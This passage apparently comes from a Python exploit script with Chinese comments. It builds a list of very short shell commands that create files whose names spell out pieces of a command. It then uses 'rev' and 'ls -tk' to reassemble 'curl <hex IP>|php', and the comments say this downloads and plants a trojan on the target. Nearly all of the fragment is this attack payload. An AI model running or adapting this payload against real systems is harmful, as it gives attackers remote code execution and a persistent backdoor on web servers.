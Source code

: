         '>sl',
        # 创建名为 >sl 的文件；到此处有四个文件，
        # ls 的结果会是：dir f> kt- sl
     
        '*>v',
        # 前文提到， * 相当于 `ls` ，那么这条命令等价于 `dir f> kt- sl`>v ，
        #  前面提到dir是不换行的，所以这时会创建文件 v 并写入 f> kt- sl
        # 非常奇妙，这里的文件名是 v ，只能是v ，没有可选字符
     
        '>rev',
        # 创建名为 rev 的文件，这时当前目录下 ls 的结果是： dir f> kt- rev sl v
     
        '*v>%s' % pos2,
        # 魔法发生在这里： *v 相当于 rev v ，* 看作通配符。前文也提过了，体会一下。
        # 这时pos2文件，也就是 g 文件内容是文件v内容的反转： ls -tk > f
     
        # 续行分割 curl 0x11223344|php 并逆序写入
        '>p',
        '>ph\',
        '>|\',
        '>%s\' % ip[8:10],
        '>%s\' % ip[6:8],
        '>%s\' % ip[4:6],
        '>%s\' % ip[2:4],
        '>%s\' % ip[0:2],
        '> \',
        '>rl\',
        '>cu\',
     
        'sh ' + pos2,
        # sh g ;g 的内容是 ls -tk > f ，那么就会把逆序的命令反转回来，
        # 虽然 f 的文件头部会有杂质，但不影响有效命令的执行
        'sh ' + pos0,
        # sh f 执行curl命令，下载文件，写入木马。
    ]
     